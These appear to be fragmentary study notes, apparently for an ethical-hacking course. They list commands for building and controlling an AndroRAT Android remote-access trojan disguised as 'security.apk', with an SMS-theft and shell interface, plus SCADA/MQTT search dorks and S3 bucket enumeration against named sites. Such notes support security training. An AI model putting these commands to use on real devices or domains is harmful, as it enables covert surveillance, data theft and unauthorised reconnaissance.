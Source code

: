 	AndoRAT
		python3 androRAT.py --build -i <ip> -p <port> -o security.apk
		python3 androRAT.py --shell -i 0.0.0.0 -p <port>
		
		Interpreter > help
		Interpreter > deviceInfo
		Interpreter > getSMS inbox
		Interpreter > shell
		Interpreter > getIP
		Interpreter > getMACAddress

	sisik.eu
		https://sisik.eu

	MalwareBytes


## IoT and OT Hacking 18
    # Footprinting
	https://www.whois.com/whois/
		www.oasis-open.org

	https://www.exploit-db.com/
		Type SCADA and search
		
	https://www.google.com
		"login" intitle:"scada-login"

	https://account.shodan.io/login
		After login -> port:1883 (to search ip addresses with MQTT enabled.)

    # Capture and Analyze IoT Device Traffic
	Bevywise_MQTTRoute_Win_64.exe
	
	Wireshark Filters
		mqtt
		mqtt.msgtype == 3


## Cloud Computing 19

    # Enumerate S3 Buckets
	lazys3
		ruby lazys3.rb
		ruby lazys3.rb HackerOne
		ruby lazys3.rb flaws.cloud

	S3Scanner
		cat sites.txt
		flaws.cloud
		reddit.com
		etc...
	